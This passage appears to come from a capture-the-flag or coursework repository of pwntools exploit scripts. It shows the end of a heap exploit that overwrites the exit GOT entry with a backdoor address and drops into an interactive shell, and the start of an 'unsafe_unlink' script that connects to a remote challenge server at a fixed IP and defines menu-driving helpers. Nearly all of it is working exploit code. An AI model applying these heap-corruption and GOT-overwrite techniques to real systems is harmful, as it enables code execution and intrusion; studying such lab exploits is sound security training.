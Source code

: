 ```python
    conn.recvuntil('see you next time!\n')


add_ddl_conn()  # A
add_ddl_conn()  # B
add_ddl_conn()  # C


finish_ddl_conn(1)
finish_ddl_conn(2)


edit_ddl_conn(2, p64(got_exit))


add_ddl_conn()                    # D
add_ddl_conn(p64(addr_backdoor))  # E


exit_ddl_conn()

conn.interactive()
```

## exploit/unsafe_unlink.py

```python
import pwn
import pwnlib.util.packing
import code


def p64(x): return pwnlib.util.packing.pack(x, 64, sign=False)
def p192(x): return pwnlib.util.packing.pack(x, 192, sign=False)


pwn.context(arch='amd64', os='linux', log_level='INFO')

binary = pwn.ELF('./crackme/03_unsafe_unlink/unsafe_unlink')

DDL_CONTENT = 0x5d8

conn = pwn.remote('47.99.80.189', 10031)
conn.recvuntil('ID:\n')
conn.sendline('3180103012')

# conn = pwn.process('crackme/03_unsafe_unlink/unsafe_unlink')


def add_ddl_conn(time: str = 'time', content: str = 'content'):
    conn.sendlineafter('Your chocie:\n', '1')
    conn.sendlineafter('please input the ddl time\n', time)
    conn.sendlineafter('please input the ddl content\n', content)


def finish_ddl_conn(index: int):
    conn.sendlineafter('Your chocie:\n', '2')
    conn.sendlineafter('please input the ddl index\n', str(index))


def show_ddl_conn(index: int):
    conn.sendlineafter('Your chocie:\n', '3')
    conn.sendlineafter('please input the ddl index\n', str(index))
```